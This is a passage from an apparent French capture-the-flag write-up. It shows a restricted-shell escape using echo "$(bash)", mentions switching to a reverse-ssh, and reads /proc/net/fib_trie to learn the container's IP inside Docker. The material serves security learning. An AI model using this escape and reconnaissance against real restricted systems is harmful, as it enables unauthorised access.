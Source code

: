 Cela me permet effectivement d'échapper aux restrictions même si je n'obtiens pas l'output de mes commandes :

```shellsession
harrison:~$ cat flag.txt
*** forbidden command: cat
harrison:~$ echo "$(cat flag.txt)"
It's not going to be that easy.
harrison:~$ echo "$(bash)"
harrison@harrison:~$ id
harrison@harrison:~$
```

La situation est vite corrigée en passant à un reverse-ssh.

Malgré que le hostname semble choisi par un humain je remarque bien vite que une bonne partie des commandes systèmes sont manquantes et qu'un `.dockerenv` est présent à la racine du système de fichier.

Sans les commandes `ip`, `ifconfig` et `netstat` on peut obtenir notre adresse IP en lisant un fichier particulier qui terminera de confirmer qu'on est dans un container Docker :

```shellsession
harrison@harrison:/home/harrison$ cat /proc/net/fib_trie
Main:
  +-- 0.0.0.0/0 3 0 5
     |-- 0.0.0.0
        /0 universe UNICAST
     +-- 127.0.0.0/8 2 0 2
        +-- 127.0.0.0/31 1 0 0
           |-- 127.0.0.0
              /32 link BROADCAST
              /8 host LOCAL
           |-- 127.0.0.1
              /32 host LOCAL
        |-- 127.255.255.255
           /32 link BROADCAST
     +-- 172.17.0.0/16 2 0 2
        +-- 172.17.0.0/30 2 0 2
           |-- 172.17.0.0
              /32 link BROADCAST
              /16 link UNICAST
           |-- 172.17.0.2
              /32 host LOCAL
        |-- 172.17.255.255
           /32 link BROADCAST
Local:
  +-- 0.0.0.0/0 3 0 5
     |-- 0.0.0.0
        /0 universe UNICAST
     +-- 127.0.0.0/8 2 0 2
        +-- 127.0.0.0/31 1 0 0
           |-- 127.0.0.0
              /32 link BROADCAST
              /8 host LOCAL
           |-- 127.0.0.1
              /32 host LOCAL
        |-- 127.255.255.255
           /32 link BROADCAST
     +-- 172.17.0.0/16 2 0 2
        +-- 172.17.0.0/30 2 0 2
           |-- 172.17.0.0
              /32 link BROADCAST
              /16 link UNICAST
           |-- 172.17.0.2
              /32 host LOCAL
```